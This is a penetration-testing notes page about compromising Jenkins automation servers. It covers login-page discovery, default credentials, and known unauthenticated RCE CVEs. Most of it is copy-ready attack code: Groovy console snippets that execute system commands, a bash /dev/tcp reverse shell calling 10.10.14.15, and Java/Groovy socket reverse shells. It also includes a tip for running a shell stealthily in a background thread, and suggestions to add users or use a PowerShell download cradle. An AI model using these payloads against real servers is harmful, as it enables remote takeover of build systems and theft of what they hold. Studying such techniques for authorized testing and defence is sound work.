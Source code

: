 # Jenkins

Open source automation server written in Java for CI/CD pipelines. Server based system that runs in servlet containers, i.e tomcat.&#x20;

Jenkins installs are often running on windows as the NT AUTHORITY/SYSTEM account, making jenkins a very juicy target.&#x20;

Jenkins runs on port 8080 by default and uses 5000 to attach slave servers.&#x20;

### Discovery/Footprinting&#x20;

Jenkins is easily discovered by its distinctive login page:&#x20;

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Jenkins may be running with weak/default credentials.&#x20;

### Code execution via groovy script console

We can either use this console to excute commands directly similar to a web shell, or attempt to gain a reverse shell. sometimes we may not always be able to get a reverse shell (outgoing ports being blocked or other reasons) so knowing how to execute commands direct on the server can prove helpful in this instance.&#x20;

**Execute commands on the server:**

Linux:

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

Windows:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```



**Reverse Shell Methods:**

1. Metasploit module /exploit/multi/http/jenkins\_script\_console
2. Linux:&#x20;
   1.

       ```groovy
       r = Runtime.getRuntime()
       p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
       p.waitFor()
       ```
3. Windows:
   1.

       ```groovy
       String host="localhost";
       int port=8044;
       String cmd="cmd.exe";
       Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
       ```



Additional Methods:

1. Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
2. More Groovy revshell resources:

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy" %}

#### Groovy <a href="#groovy" id="groovy"></a>

by [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) NOTE: Java reverse shell also work for Groovy

```
String host="10.0.0.1";int port=4242;String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

**Groovy Alternative 1**

**NOTE**: This is more stealthy

```
Thread.start {    // Reverse shell here}
```

### Known Vulnerabilities

If you fingerprint the Jenkins install version its always worth research vulnerabilities. there are a number of RCE vulnerabilities in different versions of Jenkins, for example CVE-2018-1999002 and [CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266). These two can be used to get RCE without being authenticated.&#x20;

